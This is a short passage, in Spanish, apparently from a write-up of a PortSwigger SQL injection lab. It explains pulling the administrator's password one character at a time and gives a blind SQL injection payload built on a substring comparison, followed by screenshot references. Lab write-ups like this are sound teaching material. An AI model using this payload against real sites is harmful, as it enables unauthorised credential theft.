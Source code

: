 Usando la misma logica, con estas dos variables, es posible extraer la contraseña modificando la comparacion `='` y utilizando un lista de la (`a-z`) y del (`0-9`).

```sql
' and (select substring(password,1,1) from users where username='administrator')='a
```

![](/assets/img/ps-writeup-sqli/ps-lab11_18.png)

![](/assets/img/ps-writeup-sqli/ps-lab11_19.png)
